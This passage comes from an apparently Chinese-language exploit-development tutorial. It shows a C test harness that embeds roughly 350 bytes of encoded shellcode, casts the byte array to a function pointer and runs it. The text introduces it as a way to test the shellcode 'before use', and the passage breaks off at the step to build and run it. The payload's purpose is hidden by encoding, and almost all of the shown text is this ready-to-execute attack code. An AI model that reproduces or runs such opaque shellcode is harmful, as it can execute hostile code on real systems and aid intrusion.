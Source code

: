 我们可以在使用前测试此 Shellcode：

```
#include<stdio.h>
#include<string.h>

unsigned char code[] =
"\xda\xcf\xd9\x74\x24\xf4\xbd\xb8\xbe\xbf\xa8\x5b\x29\xc9\xb1"
"\x53\x83\xeb\xfc\x31\x6b\x13\x03\xd3\xad\x5d\x5d\xdf\x3a\x23"
"\x9e\x1f\xbb\x44\x16\xfa\x8a\x44\x4c\x8f\xbd\x74\x06\xdd\x31"
"\xfe\x4a\xf5\xc2\x72\x43\xfa\x63\x38\xb5\x35\x73\x11\x85\x54"
"\xf7\x68\xda\xb6\xc6\xa2\x2f\xb7\x0f\xde\xc2\xe5\xd8\x94\x71"
"\x19\x6c\xe0\x49\x92\x3e\xe4\xc9\x47\xf6\x07\xfb\xd6\x8c\x51"
"\xdb\xd9\x41\xea\x52\xc1\x86\xd7\x2d\x7a\x7c\xa3\xaf\xaa\x4c"
"\x4c\x03\x93\x60\xbf\x5d\xd4\x47\x20\x28\x2c\xb4\xdd\x2b\xeb"
"\xc6\x39\xb9\xef\x61\xc9\x19\xcb\x90\x1e\xff\x98\x9f\xeb\x8b"
"\xc6\x83\xea\x58\x7d\xbf\x67\x5f\x51\x49\x33\x44\x75\x11\xe7"
"\xe5\x2c\xff\x46\x19\x2e\xa0\x37\xbf\x25\x4d\x23\xb2\x64\x1a"
"\x80\xff\x96\xda\x8e\x88\xe5\xe8\x11\x23\x61\x41\xd9\xed\x76"
"\xa6\xf0\x4a\xe8\x59\xfb\xaa\x21\x9e\xaf\xfa\x59\x37\xd0\x90"
"\x99\xb8\x05\x0c\x91\x1f\xf6\x33\x5c\xdf\xa6\xf3\xce\x88\xac"
"\xfb\x31\xa8\xce\xd1\x5a\x41\x33\xda\x75\xce\xba\x3c\x1f\xfe"
"\xea\x97\xb7\x3c\xc9\x2f\x20\x3e\x3b\x18\xc6\x77\x2d\x9f\xe9"
"\x87\x7b\xb7\x7d\x0c\x68\x03\x9c\x13\xa5\x23\xc9\x84\x33\xa2"
"\xb8\x35\x43\xef\x2a\xd5\xd6\x74\xaa\x90\xca\x22\xfd\xf5\x3d"
"\x3b\x6b\xe8\x64\x95\x89\xf1\xf1\xde\x09\x2e\xc2\xe1\x90\xa3"
"\x7e\xc6\x82\x7d\x7e\x42\xf6\xd1\x29\x1c\xa0\x97\x83\xee\x1a"
"\x4e\x7f\xb9\xca\x17\xb3\x7a\x8c\x17\x9e\x0c\x70\xa9\x77\x49"
"\x8f\x06\x10\x5d\xe8\x7a\x80\xa2\x23\x3f\xb0\xe8\x69\x16\x59"
"\xb5\xf8\x2a\x04\x46\xd7\x69\x31\xc5\xdd\x11\xc6\xd5\x94\x14"
"\x82\x51\x45\x65\x9b\x37\x69\xda\x9c\x1d";

int main()
{
    printf("Shellcode Length: %d\n", (int)strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

然后，构建并运行它：
